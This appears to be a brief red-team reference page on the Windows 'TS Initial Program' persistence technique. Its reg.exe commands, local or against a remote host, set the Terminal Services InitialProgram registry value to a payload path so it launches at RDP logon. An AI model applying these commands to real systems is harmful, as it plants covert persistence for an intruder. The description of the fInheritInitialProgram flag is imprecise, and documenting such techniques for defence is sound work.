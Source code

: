 # TS Initial Program

If it's set to `0x1` then it indicates the RDP is enabled.

```
C:\> reg.exe query "[\\<IP>\]HKCU\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v fInheritInitialProgram
```

```
C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v InitialProgram /d "C:\path\to\payload.exe"
```


> [!NOTE]
> This is optional.

Set the working directory.

```
C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /t REG_SZ /v WorkingDirectory /d "C:\Windows\System32"
```

---
## References

- [Persistence Info: TS Initial Program](https://persistence-info.github.io/Data/tsinitialprogram.html)